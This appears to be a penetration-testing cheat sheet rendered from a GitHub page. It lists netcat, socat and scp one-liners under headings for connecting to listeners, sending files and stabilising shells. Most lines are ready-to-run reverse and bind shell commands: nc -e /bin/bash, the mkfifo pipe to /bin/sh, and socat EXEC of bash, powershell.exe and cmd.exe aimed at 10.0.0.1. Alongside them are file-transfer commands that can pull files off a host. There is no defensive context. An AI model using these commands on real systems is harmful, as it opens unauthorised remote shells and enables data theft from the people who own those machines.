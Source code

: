 ### Connecting to listening services
```
nc -e /bin/bash 10.0.0.1 4444 --ssl
nc -e cmd.exe 10.0.0.1 4444 --ssl
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 > /tmp/f
mkfifo /tmp/f;nc 10.0.0.1 4444 < /tmp/f|/bin/sh -i 2>&1;rm /tmp/f
```

### Send & receive files
```
nc -lvnp 4444 < file-name
nc -nv 10.0.0.1 4444 > file-name
```

## SecureCopy
### Transfer remote files to local machine
```
scp admin@10.0.0.1:<file_path> .
scp -P 4444 admin@10.0.0.1:<file_path> .
```

### Transfer local files to remote machine
```
scp <file_name> admin@10.0.0.1:[path][file name to save]
scp -P 4444 <file_name> admin@10.0.0.1:[path][file name to save]
```

## Socat
### Setting up a stabilised listener
`socat TCP-L:4444 FILE:`tty`,raw,echo=0`

### Connect to stabilised listener
`socat TCP:10.0.0.1:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Set up a standard listener
```
socat TCP-L:4444 -
socat -d -d TCP4-LISTEN:4443 STDOUT
socat TCP-L:4444 EXEC:"bash -li"
socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash
socat TCP-L:4444 EXEC:powershell.exe,pipes
socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes
```

### Connect to a standard listener
```
socat TCP:10.0.0.1:4444 EXEC:powershell.exe,pipes
socat TCP4:10.0.0.1:4443 EXEC:'cmd.exe',pipes
socat TCP:10.0.0.1:4444 EXEC:"bash -li"
socat TCP4:10.0.0.1:4443 EXEC:/bin/bash
socat TCP:10.0.0.1:4444 -
socat - TCP4:10.0.0.130:4443
```
